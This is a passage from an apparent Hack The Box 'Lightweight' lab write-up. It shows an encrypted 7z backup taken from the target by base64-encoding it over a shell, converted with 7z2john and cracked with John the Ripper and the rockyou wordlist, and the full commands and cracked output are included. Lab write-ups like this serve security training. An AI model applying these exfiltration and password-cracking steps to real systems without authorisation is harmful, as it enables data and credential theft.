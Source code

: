 ```text
Solid = +
Blocks = 1Enter password (will not be echoed):
```

It requests a password. Let’s transfer it to our attack machine and run a password cracker on it.

```text
scp ldapuser2@10.10.10.119:backup.7z .
```

SCP doesn’t seem to work, so we’ll transfer it by first base64 encoding the file.

```text
[ldapuser2@lightweight ~]$ cat backup.7z | base64
```

Then taking the base64 encoded string and saving it in the file _backup.7z.base64_ on the attack machine. The base64 encoded string does contain a bunch of new lines, you can remove them in vi using the command “_:%s/\n/g_”.

Next, base64 decode the file and save it in _backup.7z_.

```text
cat backup.7z.base64 | base64 --decode > backup.7z
```

In order to crack the password with John, we first need to convert it to JtR format using the _7z2john_ script.

```text
root@kali:~/Desktop/htb/lightweight# locate 7z2john
/usr/share/doc/john/README.7z2john.md
/usr/share/john/7z2john.pl
```

If you’ve never used it before, you do have to install the following dependency.

```text
apt install libcompress-raw-lzma-perl
```

Now run the program on the compressed file and save it in the file _backup-john.txt_.

```text
/usr/share/john/7z2john.pl backup.7z > backup-john.txt
```

Then run John on the _backup-john.txt_ file.

```text
root@kali:~/Desktop/htb/lightweight# john --wordlist=/usr/share/wordlists/rockyou.txt backup-john.txt Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip [SHA256 256/256 AVX2 8x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 12 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
delete           (?)
1g 0:00:01:22 DONE (2020-01-26 16:46) 0.01218g/s 25.35p/s 25.35c/s 25.35C/s slimshady..jonathan1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
